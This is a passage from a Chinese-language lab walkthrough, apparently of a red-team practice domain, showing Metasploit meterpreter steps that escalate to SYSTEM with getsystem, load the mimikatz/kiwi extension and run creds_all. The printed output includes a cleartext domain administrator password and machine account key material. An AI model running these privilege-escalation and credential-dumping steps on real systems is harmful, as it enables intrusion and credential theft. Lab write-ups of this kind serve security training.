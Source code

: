     域管理员用户
    
3. 在MSF使用`getsystem` 获得权限
    
    ```python
    meterpreter > getsystem
    ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    ```
    
    变成`NT AUTHORITY\SYSTEM` 这是本地用户，是系统最高权限，因为我们需要破解密码
    
4. 使用MSF里的`mimikatz`模块
    
    `mimikatz`模块的使用需要`Administrator`权限或者`System`权限，这就我们为什么需要`getsystem`
    
    - 加载`mimikatz` 模块
        
        ```python
        meterpreter > load mimikatz
        [!] The "mimikatz" extension has been replaced by "kiwi". Please use this in future.
        Loading extension kiwi...
          .#####.   mimikatz 2.2.0 20191125 (x86/windows)
         .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
         ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
         ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
         '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
          '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/
        
        [!] Loaded x86 Kiwi on an x64 architecture.
        
        Success.
        ```
        
    - 运行`creds_all` 命令
        
        ```python
        meterpreter > creds_all                                                                                                                                                                                           
        [+] Running as SYSTEM                                                                                                                                                                                             
        [*] Retrieving all credentials                                                                                                                                                                                    
        ..... 省略
        Administrator  GOD.ORG      hongrisec@2019
        ignoredjunk    ignoredjunk  ignoredjunk
        stu1$          GOD.ORG      d2 64 a0 33 a9 09 93 25 30 cb 06 36 c9 74 fc 59 3e 4f 49 9a fc 20 0a c3 f1 01 af 69 df 54 f4 70 c0 fa 3e 13 95 11 93 9c 76 39 3c c1 ad f0 a3 4e 78 61 b8 08 01 2d 42 c0 82 56 66 23
                                    2e d1 07 da fd 12 b7 f6 67 8d 40 4a d2 7f 47 7c a5 b3 e5 7c 5d a0 0b 77 45 c1 92 88 38 de 6f 93 da b4 d1 c1 ec 20 da f7 98 ac a8 05 30 71 85 68 0b 39 de c4 42 db 21 4a 83 ee ed ea
                                    9f 48 e0 59 1a 95 f2 e7 c2 d7 89 9e 06 ca 05 a0 4e 25 a4 06 07 d4 cd 27 db 8d b1 bd c0 78 39 72 79 37 a0 75 98 ab 8f 1a 11 ce 56 dd 90 06 97 8e 01 df 52 f4 bc 8c b3 ae c9 c2 15 bb
                                    96 fb 62 df 7a 48 63 24 dc fb 4c 3c 6d fd 35 18 b0 82 4a ec a5 ee d1 de 46 77 2d 07 20 31 79 69 d3 5c fa 62 46 62 50 3b 09 d0 d6 94 b9 d2 99 58 4b a5 21 5c 03 5b 01 fa 95 ca 90 8d
        ```
        
